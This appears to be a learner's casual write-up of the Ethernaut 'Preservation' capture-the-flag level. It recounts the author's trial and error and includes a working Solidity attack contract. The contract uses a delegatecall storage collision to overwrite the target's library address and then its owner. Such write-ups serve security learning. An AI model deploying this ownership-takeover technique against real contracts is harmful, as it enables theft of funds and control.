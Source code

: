 ## Preservation

1. It looked totally foreign to me when i looked at the contract, there was nowhere the owner was being edited and it was using delegate but that we have already leant. So since that web3 blockchain had youtube video i went there and watched it, while watching halfway i understood what was needed to be done but i still watched it all and he used a method where he passes values via console but hacked contract only has one function that is to attack(). Meanwhile i thought why not do wverything with contract if we are using it in the first place....
   `https://www.youtube.com/watch?v=_YkulBTqIcQ` ... i cheated but after that i took the challenge to attack it using contract and not console

2. So i wrote the contract and i was getting typeerror when passing this in uint so i studied why
   `TypeError: Explicit type conversion not allowed from "address" to "uint256".`
   --> Attack.sol:11:42:
   searched and found that it is caused because we need to cast in to uint160 for address in below link also in previous challenge there was use of uint160 and couple of solidity contracts had that `https://stackoverflow.com/questions/75283515/typeerror-explicit-type-conversion-not-allowed-from-uint256-to-address`

> In Ethereum and Solidity, an address if of 20 byte value size (160 bits or 40 hex characters).It corresponds to the last 20 bytes of the Keccak-256 hash of the public key. An address is always pre-fixed with 0x as it is represented in hexadecimal format (base 16 notation) (defined explicitly). => we studied this as well ...

3. I had to try stuff for 3 hours in order to get this work like i had no contructor and every functionality was inside of attack() and it was somewhat like below code snippet which worked for changin timeZone1Library but never changed owner... i kept trying different things and it was trial and error, i understood but still don't know why it didn't work

> below snippet failed and i tried like various things in arguments of setFirstTime changed uint to addr adn uint etc etc ... for 3 hours.. even the setTime had changes of tx.origin and msg.sender and different conversions passed by \_time argument `uint256(uint160(msg.sender))` like so

```solidity
function attack(address _preserve) external {
    Preservation(_preserve).setFirstTime(uint160(address(this)));
    Preservation(_preserve).setFirstTime(uint256(uint160(msg.sender)));
  }

function setTime(uint \_time) public {
    owner = tx.origin;
}
```

4. I was doing trial and error and this below snippet worked... i had to call attack() twice

```solidity
pragma solidity ^0.8.0;

  contract Attack {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;

  Preservation att;

  constructor (address _att) {
    att = Preservation(_att);
  }

  function attack() external {
    att.setFirstTime(uint160(address(this)));
    att.setFirstTime(uint160(msg.sender));
  }

  function setTime(uint _time) public {
    owner = address(uint160(_time));
  }
}

interface Preservation {
  function setFirstTime(uint _timeStamp) external;
}
```

5. After It worked I tried doing this again and it didn't work and my flag which ticks on openzappelin website was lost but then i tried again ... after some change in code and above code totally works but you have to call the constructor with the contract the you are attacking and then call attack twice.

6. success 2x or maybe 2\*
